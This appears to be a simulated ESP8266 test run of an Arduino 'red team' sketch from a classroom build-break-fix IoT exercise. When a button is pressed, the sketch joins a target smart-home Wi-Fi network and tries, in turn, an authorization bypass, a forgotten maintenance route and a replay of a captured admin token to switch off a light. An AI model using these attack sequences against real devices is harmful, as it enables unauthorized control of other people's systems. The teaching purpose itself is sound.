
A sketch run on a simulated ESP8266 (NodeMCU). Shown: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). The test bench sets the inputs (shaded band); at power-on: GPIO 0 (PINO_BOTAO_FLASH) HIGH. WiFi joins after 1.5 s; servers stay silent unless stated; uploads are accepted with an empty reply; what the sketch prints to the serial monitor is not drawn.

Above: at 2.7 s.
2.8 s: GPIO 0 (PINO_BOTAO_FLASH) pulled LOW for 0.15 s
At 3.6 s:

5.8 s: GPIO 0 (PINO_BOTAO_FLASH) pulled LOW for 1 s
At 8.8 s:

9.1 s: GPIO 0 (PINO_BOTAO_FLASH) pulled LOW for 3.2 s
At 9.9 s:

Timing chart, 0 to 12.5 s (numbered marks = the images above; inputs shaded):


The sketch:

4_placa_atacante_redteam.ino
```cpp
/*
 * ============================================================================
 * PROJETO BIBIFI IoT - PLACA ATACANTE (RED TEAM BOX EM UMA 2ª NODEMCU)
 * ============================================================================
 * Como vocês têm várias placas NodeMCU ESP8266, você pode gravar este código
 * em uma SEGUNDA placa (a "Placa Hacker" do seu grupo)!
 *
 * O que ela faz (sem precisar de nenhum fio externo!):
 *   1. Conecta automaticamente na rede Wi-Fi "SmartHome_IoT" da placa dos colegas.
 *   2. Ao apertar o botão físico "FLASH" (que já vem soldado na NodeMCU):
 *      - Primeiro tenta o BREAK 1 (Exploit de Fluxo de Controle e Rota Esquecida);
 *      - Se os colegas já tiverem feito o Fix It (retornar 403), ela
 *        automaticamente escuta/captura o último pacote autenticado do Admin
 *        na rede e dispara o BREAK 2 (REPLAY ATTACK), apagando o LED Azul
 *        dos colegas na hora!
 * ============================================================================
 */

#include <ESP8266WiFi.h>
#include <ESP8266HTTPClient.h>
#include <WiFiClient.h>

const char* ALVO_SSID  = "SmartHome_IoT";
const char* ALVO_SENHA = "12345678";
const String ALVO_HOST = "http://192.168.4.1";

const int PINO_BOTAO_FLASH = 0; // GPIO 0 (Botão FLASH nativo da NodeMCU)

void piscarLedInterno(int vezes, int intervaloMs) {
  for (int i = 0; i < vezes; i++) {
    digitalWrite(LED_BUILTIN, LOW);  // LED interno da NodeMCU é ativo em LOW
    delay(intervaloMs);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(intervaloMs);
  }
}

// Extrai o valor de uma chave simples em uma string JSON
String extrairCampoJson(String json, String chave) {
  String padrao = "\"" + chave + "\":\"";
  int ini = json.indexOf(padrao);
  if (ini == -1) return "";
  ini += padrao.length();
  int fim = json.indexOf("\"", ini);
  if (fim == -1) return "";
  return json.substring(ini, fim);
}

void executarSequenciaDeAtaque() {
  WiFiClient client;
  HTTPClient http;

  Serial.println("\n====================================================");
  Serial.println("[RED TEAM NODEMCU] Iniciando sequencia de ataque...");
  piscarLedInterno(2, 100);

  // --------------------------------------------------------------------------
  // TENTATIVA 1: BREAK 1A (Explorar Mistake de falta de return na rota /luz)
  // --------------------------------------------------------------------------
  Serial.println("[1/3] Testando Break 1A (Bypass de visitante na rota /luz)...");
  http.begin(client, ALVO_HOST + "/luz?acao=OFF&user=visitante");
  int code1A = http.GET();
  http.end();

  // Verifica no /status se a luz apagou
  http.begin(client, ALVO_HOST + "/status");
  int codeStatus = http.GET();
  String statusJson = http.getString();
  http.end();

  if (statusJson.indexOf("\"luz_acesa\":false") != -1) {
    Serial.println("[SUCESSO - BREAK 1A] Luz apagada explorando falha de fluxo (Mistake)!");
    piscarLedInterno(5, 80);
    return;
  }

  // --------------------------------------------------------------------------
  // TENTATIVA 2: BREAK 1B (Explorar No Implementation na rota /api/manutencao)
  // --------------------------------------------------------------------------
  Serial.println("[2/3] Break 1A bloqueado! Testando Break 1B (Rota /api/manutencao)...");
  http.begin(client, ALVO_HOST + "/api/manutencao?cmd=apagar_tudo");
  int code1B = http.GET();
  http.end();

  if (code1B == 200) {
    Serial.println("[SUCESSO - BREAK 1B] Luz apagada pela rota de manutencao esquecida!");
    piscarLedInterno(5, 80);
    return;
  }

  // --------------------------------------------------------------------------
  // TENTATIVA 3: BREAK 2 (REPLAY ATTACK - Replicação do Comando do Admin!)
  // --------------------------------------------------------------------------
  Serial.println("[3/3] Alvo ja recebeu o Fix! Iniciando Sniffing + REPLAY ATTACK...");
  String ultimoPacote = extrairCampoJson(statusJson, "ultimo_pacote_rede");
  Serial.println("      Pacote interceptado na rede: " + ultimoPacote);

  int idxToken = ultimoPacote.indexOf("token=");
  if (idxToken != -1) {
    String tokenCapturado = ultimoPacote.substring(idxToken + 6);
    Serial.println("      Token MD5 extraido: " + tokenCapturado);
    Serial.println("      Replicando comando OFF com o Token capturado...");

    http.begin(client, ALVO_HOST + "/luz?acao=OFF&user=admin&token=" + tokenCapturado);
    int codeReplay = http.GET();
    String respReplay = http.getString();
    http.end();

    if (codeReplay == 200) {
      Serial.println("[SUCESSO - BREAK 2 REPLAY ATTACK] Luz Principal APAGADA via replicacao!");
      piscarLedInterno(8, 60);
    } else {
      Serial.println("[BLOQUEADO] O alvo rejeitou o Replay Attack (Nonce ativo): " + respReplay);
    }
  } else {
    Serial.println("[AVISO] Nenhum token capturado ainda. Peca para o Admin usar o sistema 1 vez!");
  }
}

void setup() {
  Serial.begin(115200);
  pinMode(LED_BUILTIN, OUTPUT);
  pinMode(PINO_BOTAO_FLASH, INPUT_PULLUP);
  digitalWrite(LED_BUILTIN, HIGH);

  Serial.println("\n[RED TEAM] Conectando na rede SmartHome_IoT do alvo...");
  WiFi.mode(WIFI_STA);
  WiFi.begin(ALVO_SSID, ALVO_SENHA);

  while (WiFi.status() != WL_CONNECTED) {
    delay(300);
    Serial.print(".");
  }

  Serial.println("\n[CONECTADO] Placa Atacante pronta!");
  Serial.println(">>> Aperte o botao FLASH na NodeMCU para disparar o ataque! <<<");
  digitalWrite(LED_BUILTIN, LOW); // LED aceso = conectado e pronto para atacar
}

void loop() {
  if (digitalRead(PINO_BOTAO_FLASH) == LOW) {
    delay(50); // Debounce
    if (digitalRead(PINO_BOTAO_FLASH) == LOW) {
      executarSequenciaDeAtaque();
      digitalWrite(LED_BUILTIN, LOW);
      while (digitalRead(PINO_BOTAO_FLASH) == LOW) delay(50);
    }
  }
}
```

Measured:
- after the input at 2.8 s, GPIO 2 (LED_BUILTIN): goes HIGH 0.10 s, LOW 0.10 s, HIGH 0.70 s, 5 × (LOW 0.08 s, HIGH 0.08 s), then LOW, starting after 0.15 s
- after the input at 5.8 s, GPIO 2 (LED_BUILTIN): goes HIGH 0.10 s, LOW 0.10 s, HIGH 0.70 s, 5 × (LOW 0.08 s, HIGH 0.08 s), then LOW, starting after 0.15 s
- after the input at 9.1 s, GPIO 2 (LED_BUILTIN): goes HIGH 0.10 s, LOW 0.10 s, HIGH 0.70 s, 5 × (LOW 0.08 s, HIGH 0.08 s), then LOW, starting after 0.15 s
